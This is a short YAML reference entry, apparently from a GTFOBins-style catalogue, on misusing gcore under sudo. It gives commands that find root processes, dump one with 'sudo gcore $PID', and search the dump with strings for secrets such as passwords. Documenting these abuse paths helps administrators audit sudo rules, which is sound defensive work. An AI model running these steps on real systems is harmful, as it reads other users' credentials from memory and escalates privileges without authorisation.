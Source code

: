 ```yaml
---
description: It may be used to generate core dumps of one or more running programs. This may lead to sensitive information leakage as passwords.
functions:
  sudo:
    - description: If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
    - code: |
        # look for an interesting running process and grab its PID
        ps aux | grep root
        # generate the dump by issuing to gcore the PID
        sudo gcore $PID
        # look for interesting information inside the dump
        strings core.$PID
---
```

